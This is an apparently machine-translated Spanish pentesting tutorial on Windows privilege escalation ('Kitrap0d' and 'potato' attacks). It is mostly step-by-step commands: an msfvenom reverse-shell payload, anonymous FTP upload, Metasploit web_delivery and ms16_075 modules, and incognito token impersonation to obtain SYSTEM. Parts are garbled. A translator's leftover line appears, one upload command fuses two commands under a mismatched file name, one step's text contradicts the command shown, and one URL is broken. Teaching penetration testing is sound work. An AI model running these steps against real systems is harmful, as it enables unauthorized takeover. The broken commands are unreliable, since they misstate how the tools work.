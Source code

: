 ```yaml
---
title: "Entendiendo las Explotaciones del Kernel"
subtitle: "Cómo los Atacantes Usan Vulnerabilidades para Obtener Control del Sistema y Realizar Ataques de Escalada de Privilegios"
tags: ["pentesting", "ciberseguridad", "red-team"]
authors: ["blindma1den", "lorenagubaira"]
---
```


## Explotaciones del kernel

Un Kernel es el componente central del sistema operativo y actúa como un puente entre los componentes de hardware y las aplicaciones de software.

Cuando un sistema operativo se carga en la memoria, el kernel se carga primero y permanece en la memoria hasta que el sistema operativo se apaga nuevamente.

El kernel es responsable de tareas de bajo nivel, como la administración de discos, la administración de tareas y la administración de memoria.

Inicialmente, estos exploits se facilitan una vez que logramos establecernos en nuestro sistema de destino, por lo que después de obtener acceso a través de metasploit (preferiblemente), ejecute esto /post/multi/recon/local_exploit_suggestery verifique si Kitrap0d existe.

### Explotación Kitrap0d

Inicialmente crearemos un shell inverso y lo cargaremos en el sistema de destino `msfvenom -p windows/shell_reverse_tcp LHOST=yourIP LPORT=555 -f aspx > myfile.aspx`

Aquí tienes el texto reordenado en Markdown para mejorar la legibilidad:

- `-p` = Carga útil (aquí un shell inverso simple)

- `LHOST` = Dirección IP actual del sistema

- `LPORT` = Puerto de su elección

- `-f` = Tipo de archivo (a qué tipo de archivo va el sistema para trabajar)

- `>` = Guardar el archivo de salida con un nombre de archivo

De alguna manera cargue este archivo en el sistema de destino. Aquí usamos ftp como ejemplo para cargar

```bash
ftp 10.0.0.1
```

La contraseña es `anonymous`.
Luego, cargue el archivo con el siguiente comando:

```bash
put manual.aspx nc -nvlp 555
```

Vaya a la dirección IP/sitio e invoque la carga útil.

### Potato Attacks

Supongamos que tenemos un shell en la máquina con Windows y después de verificar whoami /priv descubrimos que tenemos privilegios de token de suplantación.

![NoSQL23](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL23.png?raw=true)

Lo que nos ayuda a obtener NT/Autoridad mediante un ataque de papa, entonces se puede hacer lo siguiente:

> Habrá dos instancias en este punto

1. Debemos tener un pie en el sistema y verificar si el sistema tiene algún privilegio de identidad (figura anterior).

2. Es el shell de Metasploit que estamos a punto de trazar.

### En Metasploit

1. Usa el módulo de Metasploit para la entrega web:

```bash
use exploit/multi/script/web_delivery
```

2. Establece el objetivo como PowerShell (PSH):

```bash
set TARGET 0
```

3. Establece la carga útil como `windows/meterpreter/reverse_tcp`:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

4. Configura LHOST y SRVHOST como su dirección IP.

5. Ingrese a ejecutar, obtendremos una carga útil, la copiaremos y la pegaremos en la primera instancia donde esté presente el caparazón de apoyo inicial.

![NoSQL24](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL24.png?raw=true)

6. Pegue el comando anterior en la primera instancia.

7. Después de pegar, ingrese a **session1** y escriba `getprivs`.

8. Compruebe si es arquitectura x64 o x86 escribiendo `getuid`:

```bash
run post/multi/recon/local_exploit_suggester
```

9. Verifique todos los exploits disponibles que se pueden aprovechar:

```bash
run windows/local/ms16_075_reflection
```

10. Establece la sesión en `1`:

```bash
set SESSION 1
```

11. Establece LHOST en la IP de Kali.

12. Configura LPORT en cualquier puerto en el que la sesión 1 no esté escuchando.

13. Establece la carga útil:

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

14. Corre el exploit:

```bash
exploit
```

15. Carga el módulo `incognito` en Meterpreter:

```bash
load incognito
```

![NoSQL25](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL25.png?raw=true)

16. Escriba: `list_tokens -u` y observe **NT AUTHORITY\SYSTEM**.

17. Imite el token de **NT AUTHORITY\SYSTEM**:

```bash
impersonate_token "NT Authority\SYSTEM"
```

18. Escriba `shell` para obtener un shell con privilegios de autoridad.

En el caso de Labs y boxes, puede haber alguna situación de flujo de datos que se utiliza para ocultar la información de un archivo. En esos casos, podemos usar este blog: [https://blog.malwarebytes.com/101/2015/07/introduction-to -flujos-de-datos-alternativos/](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

Frases simples podrían ser **dir /R** (para búsqueda recursiva de archivos en el directorio) **más <nombre del archivo que se desea buscar**.

### Referencias:

> SecWiki/exploits-del-kernel-de-windows: exploits-del-kernel-de-windows Windows平台提权漏洞集合 (github.com)
